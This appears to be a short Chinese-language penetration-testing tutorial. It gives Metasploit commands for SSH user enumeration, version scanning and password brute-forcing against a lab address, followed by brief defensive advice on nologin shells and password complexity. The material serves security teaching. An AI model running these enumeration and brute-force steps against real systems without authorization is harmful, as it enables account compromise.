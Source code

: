 

### MSF

​		Metasploit Framework（简称MSF）是一个编写、测试和使用exploit代码的完善环境。这个环境为渗透测试，Shellcode编写和漏洞研究提供了一个可靠的平台，这个框架主要是由面向对象的Perl编程语言编写的，并带有由C语言、汇编程序和Python编写的可选组件。

#### SSH模块

```shell
root@kali:~# msfconsole
msf5 > search ssh 
```



#### SSH用户枚举

```shell
msf5 > use auxiliary/scanner/ssh/ssh_enumusers
msf5 auxiliary(scanner/ssh/ssh_enumusers) > set rhosts 192.168.19.129
msf5 auxiliary(scanner/ssh/ssh_enumusers) > set USER_FILE /root/userlist.txt
msf5 auxiliary(scanner/ssh/ssh_enumusers) > run
```



#### SSH版本探测

```shell
msf5 > use auxiliary/scanner/ssh/ssh_version
msf5 auxiliary(scanner/ssh/ssh_version) > set rhosts 192.168.19.129
msf5 auxiliary(scanner/ssh/ssh_version) > run
```



#### SSH暴力破解

```shell
msf5 > use auxiliary/scanner/ssh/ssh_login
msf5 auxiliary(scanner/ssh/ssh_login) > set rhosts 192.168.19.129
msf5 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /root/userlist.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /root/passlist.txt
msf5 auxiliary(scanner/ssh/ssh_login) > run
```



### 暴力破解防御

1. useradd shell【推荐】

```shell
root@kali:~# useradd demo -s /sbin/nologin
# 新建用户不具有登录权限
```

2. 密码的复杂性【推荐】

- 字母大小写+数字+特殊字符+20位以上+定期更换
